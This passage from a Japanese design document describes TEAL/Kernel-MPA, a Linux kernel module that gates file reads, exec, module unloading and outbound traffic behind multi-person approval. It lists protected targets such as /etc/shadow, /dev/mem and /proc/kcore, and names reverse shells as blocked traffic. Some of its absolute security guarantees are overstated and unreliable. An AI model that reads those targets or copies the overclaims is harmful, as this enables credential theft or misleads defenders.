  * スキーマ変更・削除・WORM更新などは Level 3〜4
  * ポリシー自体の更新は常に Level 4（WORM＋2名以上＋ロール分離）

このように、MPA 強度は **環境・対象・操作種別ごとに細かく調整可能**であり、
**「止めるべきところは絶対に止める」「回すべきところは回す」** という
運用上の合理性と両立させることができる。

---

# **7. TEAL に関する懸念事項と対策**

---

## **7.1 The Latency Gap：人間承認の遅延とシステムコールのタイムアウト問題**

TEAL / Kernel-MPA を導入する際に最も多い懸念のひとつが、

> **「人間が承認するまでの待ち時間（数秒〜数十秒）が、アプリケーションの read() / connect() をブロックし、アプリケーションが Time Out や Broken Pipe を起こすのではないか？」**

というものである。
特にデータベースサーバ、Web サーバ、バックアップエージェントなどは **数秒以上のブロックを許容しない**ものが多く、この問題は本質的な設計懸念として議論される。

本セクションでは、この「Latency Gap 懸念」に対し、Kernel-MPA/TEAL がどのように対処しているかを整理する。

---

### **7.1.1 結論：ホットパスに “人間承認待ち” は入らない**

Kernel-MPA / TEAL の基本原則は以下である：

> **通常運転時の read()/connect()/open() の “ホットパス” では、人間承認を要求しない。
> 人間承認は “実行前の事前フェーズ” に限定し、実行中のブロックは設計上発生させない。**

この設計により、アプリケーションの I/O が人間承認待ちで何十秒も止まるという事態は **通常運用では起こらない**。

---

### **7.1.2 なぜホットパスで承認が不要なのか（ポリシー構造）**

Kernel-MPA/TEAL のポリシーは、以下の考え方で構成する：

#### **● 認められたユーザー**

（例：バックアップ専任ユーザー）

#### **● 認められたアプリケーション**

（例：バックアップエージェント、DBサーバ本体）

#### **● 認められた対象リソース**

（例：DB の暗号化バックアップファイル）

この三点が正しく一致する通常の業務フローにおいては、

> **「承認不要（need_approval: false）」で許可**

となるため、
read() / connect() は **即時実行**され、タイムアウトの懸念は消える。

---

### **7.1.3 承認が必要なのは “例外的操作” である**

承認対象となるのは主に以下である：

* アプリケーション自身のアップデート
* データベースのフルダンプ
* システム設定・鍵ファイルの読み出し
* 外部送信などの高リスク操作
* ポリシーの更新（WORM + MPA 必須）

これらは**日常的に連続して発生する操作ではなく**、
“人間が関与すべき操作”として事前承認が必要になる。

つまり、承認が必要となる場面はそもそもレアであり、
**通常の read()/connect() はカーネル内のハイスピード判定のみ**で終わる。

---

### **7.1.4 Pre-Approval Ticket（事前承認トークン）方式**

Latency Gap 解消のための中核が **Pre-Approval Ticket（事前承認トークン）** である。

#### **● ① 事前フェーズ（人間承認フェーズ）**

1. オペレーションを実行したい担当者が TEAL に承認要求
2. MPA（2-of-3 など）に基づき必要人数が承認
3. TEAL が **Pre-Approval Ticket** を発行

   * `(ユーザー / プロセス / 対象リソース / 有効期限 / 使用回数)` を含む

#### **● ② 実行フェーズ（アプリケーション動作時）**

アプリケーションが read()/connect() を実行すると：

* LKM（Kernel-MPA）が「このプロセスは有効な Ticket を持つか？」を高速チェック
* 判定は **ミリ秒未満**
* ここで人間承認待ちが発生することはない

つまり：

> **人間承認は “実行前” に完結し、
> 実行時は「トークンのローカル検証」で即時許可される。**

これにより **Timeout / Broken Pipe は構造的に発生しない**。

---

### **7.1.5 「緊急時のランタイム承認が必要」なケースの扱い**

どうしても“実行中”に承認が必要なケース（例：緊急の DB ダンプ）が存在する場合、以下のガイドラインを採用する。

#### **● 原則：ランタイム承認は非推奨（Timeout を避けるため）**

#### **● 実施が必要な場合：**

* 承認待ち時間の上限（例：1〜2 秒）をポリシー側に設定
* 超過したら即時 Deny（アプリが長時間ブロックされない）
* 通常業務ではこのルートを使わない運用にする

TEAL の推奨はあくまで：

> **緊急作業を除き、ランタイム承認は使わず
> すべて Pre-Approval Ticket で前倒しする**

という運用モデルである。

---

### **7.1.6 Latency Gap が “実質ゼロ” である理由まとめ**

| 問題                                  | TEAL が解決する仕組み                      |
| ----------------------------------- | ---------------------------------- |
| read()/connect() が人間待ちで数十秒ブロックしないか？ | ホットパスでは **承認不要**（Allow で即時処理）      |
| ではどこで人間承認が必要？                       | **実行前の事前承認フェーズ**                   |
| 実行中に承認が必要な場合はどうする？                  | **Pre-Approval Ticket** によりミリ秒判定化  |
| 本当に固い？                              | Ticket は **BLS 署名＋短期有効＋1回限り** にできる |
| 緊急時は？                               | **Break-Glass モード**で別扱い（MPA + TTL） |

---

### **7.1.7 まとめ：Latency Gap は設計で根本的に解消済み**

Kernel-MPA / TEAL では、

1. **通常 read()/connect() は人間承認不要**
2. **事前フェーズでのみ MPA を要求**
3. **実行時は Ticket の高速検証のみ**
4. **Timeout を引き起こす構造要因が存在しない**

このため、一般的な DB・Web サーバ・バックアップエージェントが抱える
「Timeout / Broken Pipe 懸念」は **設計段階で解消されている**。

---

## **7.2 Deadlock（循環参照）リスクと制御プレーン分離**

Kernel-MPA / TEAL を設計する際にしばしば指摘される懸念として、

> **「teald 自身がログ書き込みやネットワーク通信を行うときに、
> Kernel-MPA がそれをフックして『承認が必要』と判定したらどうなるか？」**

という **Deadlock（循環参照）リスク** がある。

極端なケースでは、

> teald が動くために承認が必要
> ↔ 承認するために teald が動く必要がある

という「鶏と卵」状態に陥り、システムがフリーズするように見える。

本章では、この懸念に対して Kernel-MPA / TEAL がどのように対処するかを整理する。

---

### **7.2.1 問題の整理：コントロールプレーンの自己依存**

問題の本質は、次の 2 つのレイヤが混ざることにある。

1. **制御プレーン（Control Plane）**

   * teald 本体
   * 承認 UI / CLI
   * ポリシー更新／WORM コミット処理
2. **データプレーン（Data Plane）**

   * DB サーバ・Web サーバ・バッチ・バックアップエージェント
   * アプリケーションプロセス全般

Deadlock 懸念が生じるのは、

> **Control Plane の I/O まで Data Plane と同じルールで
> MPA 対象にしてしまう場合**

である。

---

### **7.2.2 設計方針：制御プレーンとデータプレーンを明確に分離する**

Kernel-MPA / TEAL では、次の設計原則を採用する。

> **制御プレーン（teald およびその補助プロセス）は、
> Data Plane を制御する側であり、自身は Kernel-MPA の MPA 対象にしない。**

具体的には：

* `teald` プロセス
* `teal-approve` / `teal-reject` / `teal-status` 等の承認 CLI
* ポリシー更新ツール（`teal-policy-commit` 等）

といった **制御プレーンのプロセス群**については、

* ファイル I/O（ログ・設定・ポリシー）
* UDS 通信（`/dev/teal` / teald ソケット）
* 必要最小限のネットワーク通信

を **ポリシーで常時 Allow** するか、
あるいは **Kernel-MPA の評価対象から除外** する。

---

### **7.2.3 teald のログ書き込みとファイルアクセス**

teald のログ書き込みは、監査上は重要だが、
Kernel-MPA で MPA 対象とする必要はない。

設計方針は次の通り：

1. **ログディレクトリを「TEAL システムゾーン」として固定**

   * 例：`/var/log/teald/`
2. Kernel-MPA のポリシー側で：

   * `process == teald` かつ `path` が `TEAL システムゾーン` の場合は **無条件 Allow**
3. ログファイルの保全性は：

   * WORM（chattr +i / dm-verity 等）
   * 外部ログ転送（SIEM）
   * BLS 署名付きの承認ログ
     などで担保する

これにより、

> teald がログを書き込むために
> もう一度 teald 経由の MPA 承認が必要になる

という自己参照は構造的に発生しない。

---

### **7.2.4 WORM ポリシー更新時の「書き込み」はどのように守られるか**

WORM 領域（`/etc/teal.d` など）へのポリシー更新は本提案の中核であり、
**「最も守るべき書き込み」**である。

ここで重要なのは、

> WORM 保護は **Kernel-MPA の “承認待ち I/O” ではなく、
> 「暗号学的検証（BLS 署名＋ハッシュ）」で実現する**

という点である。

1. teald / ポリシーツールが
   **BLS 署名付きのポリシーパッケージ**を生成
2. Kernel-MPA / teald の `policy-commit` が

   * ハッシュと署名を検証し
   * 正当な MPA を経た更新だけを受け入れる
3. このとき、**WORM 領域への書き込み自体は
   “署名検証に成功した場合にだけ許可される単純な Allow”** であり、
   追加の MPA 呼び出しは不要

つまり、WORM 更新の安全性は

* 「承認済みであること」をコード内の BLS 検証で保証し
* I/O パスは Deadlock を起こさないシンプルな条件で許可する

という二段構えで達成される。

---

### **7.2.5 TEAL-NET と teald 自身のネットワーク通信**

TEAL-NET は **Data Plane の outbound 通信をゼロトラスト化**する仕組みであり、
**teald 自身が FIDO2 サーバや管理ポータルと通信するためのネットワーク**は、
次のように扱う。

* `process == teald` の outbound は、

  * 管理ポータル / 認証サーバ / ログ収集先 など、
    あらかじめ決めた宛先について **静的 Allow**
* それ以外の未知の宛先は deny

重要なのは、

> teald のネットワーク通信を TEAL-NET の「人間承認フロー」に乗せない
> （＝teald が自分自身の送信を承認するような構造にしない）

という点である。

---

### **7.2.6 まとめ：Deadlock は設計上排除される**

以上を整理すると、Deadlock 懸念に対して Kernel-MPA / TEAL がとるアプローチは次の通りである。

1. **制御プレーン（teald / 承認 CLI / ポリシーツール）と
   データプレーン（アプリケーション群）を明確に分離する。**
2. 制御プレーンの I/O（ログ書き込み・必要なネットワーク通信・ポリシーコミット）は、
   **Kernel-MPA の MPA 対象から除外するか、静的に Allow する。**
3. WORM 保護やポリシーの正当性は、
   **BLS 署名＋ハッシュ検証などの暗号学的手段で保証し、
   I/O レベルでは Deadlock のない単純な制約だけを適用する。**

その結果として、

> **「teald が動くために承認が必要 ↔ 承認するために teald が必要」
> という循環参照は、アーキテクチャレベルには成立しない**

と言える。

---

## **7.3 Root 権限による LKM（Kernel-MPA）無効化の懸念と対策**

Linux では、標準的な root 権限（`CAP_SYS_MODULE`）を持つユーザーは
`rmmod` や `modprobe -r` を用いてカーネルモジュールをアンロードできる。
これに対し、次のような懸念がしばしば指摘される。

> **「攻撃者が root を奪取した場合、`rmmod kernel_mpa` を実行すれば
> 防御モジュール（LKM）が削除されてしまい、Kernel-MPA の防御は消滅するのではないか？」**

本節では、この懸念に対し Kernel-MPA / TEAL がどのように対処するかを整理する。

---

### **7.3.1 結論：root を奪取されても Kernel-MPA のアンロードは不可能**

Kernel-MPA / TEAL では、以下の複数の防御ラインにより、
攻撃者が root を取得しても LKM（kernel_mpa）を無効化することは **仕組み上、許可されない（Architecturally Disallowed）**。

---

### **7.3.2 LKM を “アンロード不可（non-removable）” とする設計**

Kernel-MPA の LKM は以下のいずれか、または複数の方式で
「root から見ても外せないモジュール」として構成する。

#### **● (1) モジュールをアンロード不可としてビルド**

* `THIS_MODULE->exit = NULL;`
* `module_refcount` を固定
* `MODULE_FLAGS_NO_UNLOAD` 相当のフラグ設定

この設定により、root が `rmmod kernel_mpa` を実行しても
カーネルレベルで拒否される。

#### **● (2) LKM を built-in（vmlinux に直接組み込み）化**

最終構成では Kernel-MPA をモジュールではなく
**カーネル組み込み（built-in）**として提供可能である。

* 組み込み機能は rmmod の対象外
* root といえども無効化できない

これは SELinux や Yama と同じ方式である。

---

### **7.3.3 rmmod / modprobe / insmod は MPA 対象のクリティカル操作**

Kernel-MPA の PolicyEngine では、次の操作をすべて
**`need_approval: true`（MPA 必須）** のクリティカル操作と定義できる。

* `/sbin/rmmod`
* `/sbin/modprobe -r`
* `/sbin/insmod`
* `/usr/bin/modprobe`

したがって、攻撃者が root を奪取しても：

```
root → rmmod kernel_mpa
      ↓ Kernel-MPA フック
need_approval: true → teald へ承認要求  
      ↓ MPA 未達成
操作拒否（EPERM）
```

となり、Kernel-MPA を外すことはできない。

---

### **7.3.4 initramfs 段階で Kernel-MPA を先読み込みする**

起動シーケンスは次のようになる：

```
[1] Measured Boot (TPM PCR)
[2] initramfs
      ⮡ Kernel-MPA LKM をロード
[3] systemd 起動
[4] teald 起動
[5] アプリケーション起動
```

ポイント：

* `rmmod` を実行できるのは systemd 以降
* その時点では Kernel-MPA が既に LKM フック済
* よって “起動直後にアンロード” は構造的に行えない

---

### **7.3.5 Measured Boot（TPM PCR）による整合性保証**

TPM 2.0 の PCR には以下が計測される：

* カーネル本体（vmlinux）
* initramfs
* Kernel-MPA LKM
* teald
* Policy ファイルのハッシュ

攻撃者が Kernel-MPA を無効化しようとすると PCR 値が変化し：

* TEAL master key（PCR バインド）が開示されず
* Pre-Approval Ticket の署名も不可能
* teald も正常起動できない

つまり、

> **Kernel-MPA を外すこと自体が、TEAL システム全体を“安全停止”させるトリップワイヤになる。**

---

### **7.3.6 WORM 化されたポリシーにより、CAP_SYS_MODULE の乱用も不可**

* `/etc/teal.d` のポリシーは
  **WORM（Write Once Read Many）領域＋BLS 署名**で保護される。
* 攻撃者はポリシーを緩和して `rmmod` を allow することができない。
* ポリシー改変には MPA Level 3〜4 が必要。

結果：

> **root 自身がポリシーを改ざんして LKM 無効化を許可することも不可能。**

---

### **7.3.7 総合的な防御構造**

| 防御機構                      | rmmod / modprobe への影響 |
| ------------------------- | --------------------- |
| LKM アンロード不可設定             | root でも rmmod 不可      |
| built-in 化                | 物理的に rmmod 対象外        |
| modprobe / rmmod を MPA 管理 | root の操作も STOP        |
| initramfs 先読み込み           | 攻撃の“前倒し無効化”が不可能       |
| TPM Measured Boot         | 無効化すると TEAL が起動不能     |
| WORM ポリシー                 | ポリシー改ざんによる bypass 不可  |

---

### **7.3.8 まとめ**

本設計では：

> **攻撃者が root を奪取しても
> Kernel-MPA をアンロードすることは構造的に不可能。**

理由は以下の通りである：

1. LKM をアンロード不可としてビルド
2. あるいは built-in 化して rmmod 対象から除外
3. modprobe / rmmod / insmod がすべて MPA 必須
4. initramfs で Kernel-MPA を最初にロード
5. TPM Measured Boot により改ざんは即不正扱い
6. WORM ポリシーにより緩和も不可能

この多層防御により、
**root 権限による LKM の破壊を論理的に封じる（Logically Seal）構造**になっている。

---

## **7.4 Break-Glass（緊急モード）に関するセキュリティ懸念と対策**

TEAL / Kernel-MPA では、重大な障害時に限定して
「Break Glass（緊急モード）」を設計上持つことを想定している。
しかし、以下のような懸念がしばしば指摘される。

> **攻撃者は MPA を正面突破するより、
> システムをわざと不安定にして “緊急モード” に落とし、
> その隙を突いたほうが簡単ではないか？
> teald が DoS でダウンしていたら、誰が Break Glass を制御するのか？**

本節では、こうした「緊急時を狙った攻撃」が
アーキテクチャ的に成立しない理由を整理する。

---

### **7.4.1 結論：Break Glass は「抜け道」ではなく “より強い制御下の安全停止モード”**

Break Glass は、

* すべての制御を緩めるモードではなく、
* **TEAL / Kernel-MPA が“より厳しい制約”と“限定的な権限”を適用する安全停止モード**
  である。

つまり：

> **Break Glass モードは「緩和」ではなく「鎖を短くする」。
> 攻撃者が利用できる穴にはならない。**

---

### **7.4.2 「緊急モードへの移行自体に MPA が必要」は正しいが、それだけでは不十分**

懸念に対して、あなたの回答は半分正しい：

> 「緊急モードへの移行も MPA が必要だから安全」

しかし、レビュー者はこう疑問を持つ：

* TEAL（teald）が DoS で死んでいたら、MPA 承認を出す経路自体が壊れるのでは？
* すると、システムは「承認できないから緊急モードに落ちる」状態にならないか？
  あるいは「人間が復旧不能になる」？

ここがポイントで、**Break Glass の制御は teald だけで決まる仕組みではない**ということです。

---

### **7.4.3 Break Glass の管理は「カーネル / TPM / 暗号鍵」による 3 層構造で行う**

Break Glass は以下の 3 つのレイヤで構成されている：

#### **1. TPM PCR バインディング（最も強い層）**

* Break Glass の使用は **専用の BLS 署名トークン**でのみ解禁
* トークンは PCR（Measured Boot）とも紐付いているため
  **通常モード改ざんでは Break Glass トークンは生成できない**

#### **2. Kernel-MPA LKM（第二の層）**

* teald がダウンしていても Kernel-MPA LKM 自体は稼働している
* LKM が Break Glass トークンの署名検証を行う
* **Kernel-MPA は、teald の有無に関係なく動作し続ける**

#### **3. teald（第三の層）**

* 通常は teald が「MPA 集約＋発行」を行う
* しかし、Break Glass では teald は「オプション」であり、
  **必須コンポーネントではない**

結論：

> **teald が DoS で落ちていても、Break Glass は使えないし、
> 緊急モードへ勝手に遷移することもない。**

---

### **7.4.4 「teald が死んだら安全側に倒れる」設計が重要**

Break Glass では **fail-open ではなく fail-safe** を採用する：

#### **Fail-Open（危険）**

* TEAL が死んだらシステムを緊急モードに緩和
  → 攻撃者が DoS するだけで突破可能

#### **Fail-Safe（TEAL 設計）**

* TEAL（特に teald）が死んでもポリシー緩和は発生しない
* クリティカル操作は STRICT DENY のまま
* 必要なら **管理者が物理コンソールで安全に再起動**

つまり：

> **攻撃者が teald を落としても、権限は緩和されない。
> ただの DoS であり、権限昇格の足がかりにはならない。**

---

### **7.4.5 「緊急時は OS 全体の再起動で復旧」も正しいが、それは“最終手段”として存在する**

* TEAL / Kernel-MPA のコア（LKM）は
  systemd より先に起動しており、クラッシュしない
* もしユーザーランドの teald が死んでも
  Kernel-MPA の保護は残り続ける
* その状態で安全に復旧するための“最終手段”が
  **安全停止＋再起動（Safe Reboot）**
* 再起動はコントロールプレーンの復旧であり、セキュリティ緩和ではない
* 資産の機密性・完全性に影響しない

ここでは **権限緩和は一切発生しない**。

---

### **7.4.6 攻撃者が緊急モードを悪用することが不可能な理由（一覧）**

| 攻撃者行動                             | 結果                                           |
| --------------------------------- | -------------------------------------------- |
| teald を DoS する                    | Break Glass が自動発動しない。Kernel-MPA は DENY のまま。  |
| teald をクラッシュさせる                   | Kernel-MPA LKM が制御を維持。攻撃者が目的達成に必要な操作を実行できない。            |
| 緊急モードを偽装しようとする                    | TPM PCR + BLS 署名が一致せず、Break Glass トークンが通らない。 |
| MPA をスキップして Break Glass へ遷移しようとする | MPA / TPM / Kernel の 3 層で拒否。                 |
| “緩いモード” へ強制遷移                     | Break Glass は緩和ではなく「より制限の強い安全停止」。攻撃成功確率は極めて低い。     |

---

### **7.4.7 まとめ：Break Glass は攻撃者の抜け道ではなく、安全停止設計**

最終まとめ：

> **緊急モード（Break Glass）は、攻撃者が使える抜け道ではなく、
> “さらに強い制限でシステムを安全側に倒すためのモード”である。**

> **teald が死んでも、Kernel-MPA の保護は残り、
> Break Glass への自動遷移は起きない。**

> **緊急時は、管理者が物理コンソールから安全に再起動（Safe Reboot）すればよい。
> 攻撃者はこの流れを悪用できない。**

---

## **7.5 カーネルメモリ破壊（Kernel Exploit）とルートキットに対する防御**

**懸念：**

        LSM（Linux Security Module）はシステムコールをフックする機構だが、カーネル自身の脆弱性（Dirty COW, Dirty Pipe等）を悪用し、
        正規のシステムコールを経由せずにメモリ上の `struct cred`（権限構造体）を直接書き換えられた場合、フックをすり抜けて root 権限を
        奪取される恐れがあるのではないか？

**対策：TPM Sealing による「機密性の最後の砦」**

        TEAL は、OS カーネルが攻撃者によって完全に掌握された（ルートキットが埋め込まれた）場合でも、「データの機密性だけは絶対に守り抜く」
        構造を採用している。

1. **攻撃の性質と限界**

        カーネルメモリが直接書き換えられた場合、ソフトウェアベースのフック（LSM）は無効化される可能性がある。攻撃者はシステムを破壊したり、
        TEAL プロセスを停止させたりすることは可能である。しかし、**TPM チップ内部の秘密鍵には物理的にアクセスできない**。

2. **TPM Sealing（封印）による防御**

        TEAL は、重要な暗号化キーや認証トークンを TPM に **Seal（封印）** している。
        * 封印条件：`PCR State == Healthy Kernel`
        * 攻撃時：ルートキットのロードやカーネル改変が発生すると、PCR 値が変化（汚染）する。
        * 結果：攻撃者が「鍵をよこせ（Unseal）」と命令しても、TPM はハードウェアレベルで拒否する。


3. **結論：安全な敗北（Fail-Safe）**

        カーネルレベルの攻撃が成功した場合、攻撃者は「暗号化されたままのゴミデータ」しか手に入らない。システムは使用不能（DoS）になるかも
        しれないが、機密情報の漏洩（Exfiltration）は数学的に不可能となる。

---

# **8. TEAL-NET：Zero-Trust Outbound Network**

## **8.1 outbound の厳格なホワイトリスト**

プロセス単位で outbound の全通信を制御：

* connect()
* sendmsg()
* ssh/scp
* reverse shell
* beaconing (HTTP/HTTPS)

いずれも、許可された宛先以外には使用不可。

---

## **8.2 攻撃者から見た絶望的状況**

攻撃ツールの行動は次のようになる：

* 読めない
* 書けない
* 暗号化できない
* 送れない
* 永続化できない

---

# **9. ファイル / メモリ読み出しに対する MPA 制御**

## **9.1 read() を OS で保護するという革新**

従来：

* read は無制限
* root は全部読める
* EDR は read を止められない

Kernel-MPA：

> **read 自体に STOP バリア。
> 読み出しは「人間承認」が前提。**

---

## **9.2 規制対象**

* 機密ファイル
* 暗号鍵
* DB バックアップ
* /proc/kcore
* /proc/[pid]/mem
* /etc/shadow
* /dev/mem

---

## **9.3 読み出しチェーンの破断**

データ搾取攻撃：

```
read → decrypt → send
```

STOP バリアにより、

* read ができない
* decrypt 用のキーも読めない
* send も TEAL-NET で不可

---

# **10. PolicyEngine と WORM 管理**

## **10.1 ポリシーの分割管理（/etc/teal.d）**

複数ファイルに分割し、管理性を高める：

```
/etc/teal.d/
   10-base.yaml
   20-files.yaml
   30-net.yaml
   ...
```

---

## **10.2 WORM（Write Once Read Many）化**

ハッシュ＋署名により変更不可性を保証：

```
hash: sha256(...)
signature: bls-sign(...)
```

---

# **第3部：攻撃対応と破断効果**

---

# **11. STOP バリアによる攻撃チェーン破断**

## **11.1 read → decrypt → exfiltrate の破断点**

```
read      ← STOP
decrypt   ← （キー読み出せず停止）
send      ← TEAL-NET で停止
```

---

# **12. 攻撃カテゴリ別の評価**

| 攻撃      | TEAL による防御手法（メカニズム）                      |
| ------- | -------------- | ----------------------- |
| 資格情報窃取  | read STOP / send STOP |
| (Credential Theft) | 機密ファイルやメモリの読み出しを禁止し、外部送信も遮断するため、認証情報を持ち出せない。 |
|||
| ランサムウェア |  write STOP / Key-read STOP |
| (Ransomware) |  暗号化のための大量書き込みと、復号鍵の読み出し・生成をブロックし、暗号化プロセスを成立させない。|
|||
| 内部不正    |  Root制御 / WORM / MPA             |
| (Insider Threat) |  Root権限であっても単独での破壊・持ち出しを禁止。MPA（多人数承認）と改ざん不可ログにより不正を物理的に抑止する。|
|||
| 横展開     | Process-based Outbound Control           |
| (Lateral Movement) | SSH や SCP などの管理ツールであっても、許可された宛先以外への接続（Connect）をプロセス単位で禁止する。|
|||
| サプライチェーン攻撃 | Exec STOP / Network STOP |
| (Software Supply Chain) | 正規ソフトに混入した悪意あるコードが、未承認の外部通信や不正なファイル操作を行った瞬間に遮断する。|
|||
| 永続化     | Config Write STOP   |
| (Persistence) | systemd, cron, rc.local などの起動設定への書き込みをMPA必須とし、バックドアの設置を防ぐ。|

このように、攻撃の「目的達成」に必要な操作（読む・書く・送る）そのものを制御することで、既知・未知を問わず、OS レイヤであらゆる攻撃の影響を極小化する。

---

# **13. 防御確率モデル**

攻撃成功確率：

```
P = P_read × P_exec × P_send × P_persist ...
```

STOP バリアで 1 つが 0 なら、

```
P_total = 0
```

---

# **14. 攻撃者の行動制約**

* root を取っても攻撃者が目的達成に必要な操作を実行できない
* 暗号化できない
* 復号できない
* 外部に送れない
* 内部に横展開できない

---

# **第4部：実装・運用**

---

# **15. カーネル実装概要（擬似コード）**

```rust
fn hook_execve(path, args) {
    if !has_approval("exec", path) {
        deny();
    }
}
```

```rust
fn hook_read(file) {
    if is_protected(file) && !has_approval("read", file) {
        deny();
    }
}
```

```rust
fn hook_send(dst) {
    if !allowed_outbound(dst) {
        deny();
    }
}
```

---

# **16. teald の内部構造**

`teald` は、Kernel-MPA（LKM/LSM）が `/dev/teal` を通じて送信してくる
**「操作要求（ExecRequest / FileReadRequest / NetSendRequest …）」** を受け取り、
**ポリシー評価 → MPA → 承認トークン返却** を行う **中央承認サーバ** である。

内部構造は、「高スループット」「低遅延」「高信頼性」を同時に満たすため、
以下の 7 つのコンポーネントで構成される。

---

# **16.1 全体アーキテクチャ（文章図）**

```
+------------------------------------------------------------+
|                        teald (承認サーバ)                  |
|                                                            |
|  +------------------+      +-----------------------------+  |
|  | UDS Server       | ---> |  RequestQueue              |  |
|  | (listener)       | <--- |   (in-memory / durable)    |  |
|  +------------------+      +-----------------------------+  |
|            |                       |                        |
|            v                       v                        |
|   +-----------------+     +------------------------------+  |
|   | PolicyEngine    | --> |  MPA Engine                 |  |
|   | (YAML, cache)   |     |  (approval state machine)   |  |
|   +-----------------+     +------------------------------+  |
|            |                       |                        |
|            v                       v                        |
|  +--------------------------------------------------------+ |
|  | Persistent Logger (structured JSON log / audit trail) | |
|  +--------------------------------------------------------+ |
+------------------------------------------------------------+
```

---

# **16.2 モジュール構成**

各モジュールは、それぞれ独立した責務を持ち、
全体として **「低遅延 MPA 承認機構」** を形成する。

| モジュール                 | 役割                                               |
| --------------------- | ------------------------------------------------ |
| **UDS Server**        | LKM からの JSON リクエストを受信、レスポンス送信                    |
| **RequestQueue**      | 各操作リクエストの状態管理（Pending/Waiting/Approved/Rejected） |
| **PolicyEngine**      | ポリシー読み込み・キャッシュ・評価                                |
| **MPA Engine**        | 承認者の状態遷移管理（n-of-m, roles, TTL）                   |
| **Persistent Logger** | 承認履歴・評価結果の永続化                                    |
| **Thread Manager**    | 非同期スレッドで並列性確保                                    |
| **Health Monitor**    | teald の状態監視・自己診断                                 |

---

# **16.3 RequestQueue の内部構造**

## **16.3.1 データ構造**

各リクエストは以下の構造体で管理される：

```rust
struct QueueEntry {
    request_id: Uuid,
    uid: u32,
    pid: u32,
    cmd: Option<String>,
    file_path: Option<String>,
    net_dst: Option<String>,
    created_at: SystemTime,
    status: RequestStatus,
    approvals: Vec<ApprovalRecord>,
}
```

`RequestStatus` は：

```
Pending → WaitingForMPA → Approved → (tealへトークン返却) → Completed
                    └──→ Rejected
```

---

## **16.3.2 状態遷移（State Machine）**

```
[Pending]
    |
    v
[WaitingForMPA]
    |  (MPA threshold 達成)
    v
[Approved] -----------\
    |                 |
    v                 |
[Completed]           |
                      |
[Rejected] <----------/
```

* `Pending`: カーネルから受信した直後
* `WaitingForMPA`: MPA 必須なので承認待ち
* `Approved`: MPA 条件達成（トークン生成）
* `Completed`: カーネルへ返却済
* `Rejected`: 承認者による拒否

---

## **16.3.3 メモリ管理戦略**

* **LRU**：古い Completed リクエストは LRU でメモリ解放
* **レプリケーション**：必要に応じて永続化
* **高頻度 read/write の高速化のため in-memory を優先**

---

# **16.4 PolicyEngine の評価プロセス**

PolicyEngine は `/etc/teal.d/*.yaml` を読み込み、
**構造化ポリシーとしてキャッシュ**する。

## **16.4.1 ポリシー読み込みフロー**

```
read_files() → parse_yaml → validate_schema  
             → merge → compute_hash → signature_check  
             → store_internal_cache
```

## **16.4.2 ポリシー評価ロジック**

操作要求（例：execve）に対し、以下の順で評価する：

1. **最も具体的な rule から評価**

   * `uid + command`
   * `uid only`
   * `command only`
   * `default`

2. **need_approval = true / false を決定**

例：

```yaml
rules:
  - name: "uid1001-dd-needs-approval"
    uid: 1001
    command: "/usr/bin/dd"
    need_approval: true
    mpa_level: 2
```

---

## **16.4.3 キャッシュ戦略**

* **Hash-based Reload**：
  ファイルハッシュ（sha256）が変化した場合のみ再読み込み。
* **TTL-based Cache**：
  設定によって `--cache-ttl=1s` のように最短 1 秒で更新可能。
* **WORM領域**：
  hash + signature により改ざんを検出。

---

# **16.5 MPA Engine の実装**

MPA Engine は次の機能を担当する：

* n-of-m 判定
* ロール分離判定
* セルフ承認の禁止
* Time Window (9〜18時など)
* TTL（承認後○分以内）
* Geo/Host 情報の一致確認（オプション）

## **16.5.1 承認記録（ApprovalRecord）**

```rust
struct ApprovalRecord {
    approver_id: String,
    role: String,
    approved: bool,
    note: Option<String>,
    timestamp: SystemTime,
    signature: BlsSignature,
}
```

## **16.5.2 MPA 判定アルゴリズム（擬似コード）**

収集された承認情報（Approvals）が、ポリシーで定義された必要数（Threshold）を満たしているかを判定する。**ここで、MPA の整合性を担保するため、以下の原則を適用する。**

1. **起案者と承認者の分離（Separation of Duties）:**

        操作を呼び出した「起案者（Initiator）」は、その操作に同意していることが前提であるため、承認者リスト（Approvals）には含まれない。

2. **閾値（Threshold）の定義:**

        threshold は、**起案者以外に必要とされる「追加の承認者数」**を指す。したがって、操作の実行に必要な総人数はthreshold+1名となる。

```rust
// MPA Engine 判定ロジック（改訂版擬似コード）
fn evaluate_mpa_status(request: &MPARequest, policy: &MPAPolicy) -> MPAStatus {
    // 1. 承認者リストから起案者(Initiator)を明示的に除外（自己承認の防止）
    let valid_approvals: Vec<_> = request.approvals
        .iter()
        .filter(|&&uid| uid != request.initiator_uid)
        .collect();

    // 2. 必要ロールの充足確認（有効な承認者の中でロールを判定）
    if !has_required_roles(&valid_approvals, &policy.mpa.required_roles) {
        return MPAStatus::Pending("Required roles not met by third-party approvers");
    }

    // 3. 閾値（起案者を除いた必要数）の判定
    if valid_approvals.len() < policy.mpa.threshold {
        let remaining = policy.mpa.threshold - valid_approvals.len();
        return MPAStatus::Pending(format!("Wait for {} more approval(s)", remaining));
    }

    // 全条件充足
    MPAStatus::Authorized
}

```

---

# **16.6 UDS サーバ（Unix Domain Socket Server）**

## **16.6.1 役割**

* LKM / LSM → teald
* teald → LKM への応答

という高速 IPC (Inter Process Communication) を処理する。

---

## **16.6.2 I/O モデル**

パフォーマンス要件：
**1 操作あたり 0.1〜1 ms の応答時間**を想定。

そのため、以下の I/O モデルを採用：

* epoll / mio による非同期 I/O
* 1 接続 1 スレッドではなく、**イベントループ方式**
* JSON の streaming decoder（serde_json の incremental parse）

---

## **16.6.3 メッセージ形式**

### LKM → teald (request)

```json
{
  "uid": 1001,
  "pid": 1234,
  "cmd": "/usr/bin/dd",
  "request_id": "cacfffab-1c0a-4d9c-bc66-b329510ba349",
  "type": "ExecRequest"
}
```

### teald → LKM (response)

```json
{
  "result": "NeedApproval",
  "request_id": "cacfffab-1c0a-4d9c-bc66-b329510ba349"
}
```

---

# **16.7 永続化ログと監査**

## **16.7.1 すべての承認行為は JSON で記録される**

```
/var/log/teald/YYYY-MM-DD/requests.jsonl
```

各エントリ：

```json
{
  "timestamp": "2025-12-01T12:00:11Z",
  "request_id": "49290d12-a9c5-4eda-8165-88eb7b8e81f8",
  "uid": 1001,
  "action": "exec",
  "target": "/usr/bin/dd",
  "mpa_result": "approved",
  "approvals": [
    {"approver": "alice", "role": "ops_admin", "signature": "..."}
  ]
}
```

---

## **16.7.2 監査モデル**

* すべての承認は **BLS 署名**で証明可能
* 承認者・時刻・理由を完全記録
* 操作完了後の結果も紐づける
* SIEM 連携可（Splunk, Chronicle, Elasticなど）

---

# **16.8 高可用性（HA）構成**

`teald` は OS の安全性に直結するため HA が必須。

